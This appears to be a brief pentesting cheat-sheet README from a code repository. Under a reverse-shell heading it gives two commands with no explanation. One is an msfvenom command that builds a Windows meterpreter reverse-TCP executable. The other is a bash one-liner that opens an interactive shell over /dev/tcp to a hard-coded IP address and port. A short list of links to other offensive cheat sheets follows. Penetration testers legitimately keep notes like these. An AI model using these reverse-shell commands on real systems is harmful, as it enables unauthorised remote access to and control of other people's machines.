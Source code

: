 # Pentesting CheatSheet
![Terminal](../Images/hacking.gif)


This is a cheat sheet to pentesting it contains the code snippets i use during my pentesting job.

## ReverseShell
### Msfvenom Windows

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=tun0 LPORT=8989 -o /home/kali/Machine/Crafty/reverse.exe
```
### Bash

```bash
bash -i >& /dev/tcp/10.8.87.174/8888 0>&1
```


# Resource

- **[Read Team Notes](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)**
- **[Hausec](https://hausec.com/pentesting-cheatsheet/)**
- **[Pentest-Cheat-Sheets](https://github.com/Kitsun3Sec/Pentest-Cheat-Sheets)**
